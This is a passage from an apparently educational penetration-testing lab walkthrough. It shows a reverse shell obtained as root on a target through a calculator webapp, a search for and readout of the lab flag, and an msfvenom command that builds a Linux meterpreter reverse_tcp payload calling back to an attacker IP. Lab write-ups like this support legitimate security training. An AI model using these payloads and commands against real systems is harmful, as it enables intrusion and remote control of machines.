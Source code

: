 Now paste the copied payload to the textbox in the calculator webapp and press the`=`button to supply the payload to the backend:

![12\_2](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/12\_2.png)

This should trigger the bug and get us the reverse shell! Once the payload has been supplied, check the terminal on which the netcat listener was started:

![12\_3](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/12\_3.png)

We've got a reverse shell session from the target machine!

Looks like we've got a **root** shell:

**Command:**

```
id
```

![12\_4](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/12\_4.png)

**Step 13:** Retrieving the flag from the target machine.

Let's find the flag from this machine:

**Command:**

```
find / -iname *flag* 2>/dev/null
```

![13](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/13.png)

Notice the very first entry of the output:`/tmp/flag`. This file contains the flag.

Let's read the flag:

![13\_1](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/13\_1.png)

**Flag:** 3b2b474c06380f696b38c1498f795e054374

**Step 14:** Generating payload to gain a meterpreter session on the compromised machine.

Even though we have compromised the target machine, we are still limited in the things we can do with the normal shell session. It would be quite good to gain a meterpreter shell session instead to carry out further exploitation.

Use the following command to generate a`reverse_tcp`payload to get back a meterpreter shell session (an ELF binary):

**Command:**

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.196.85.2 LPORT=5555 -f elf > payload.bin
```

![14](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/14.png)
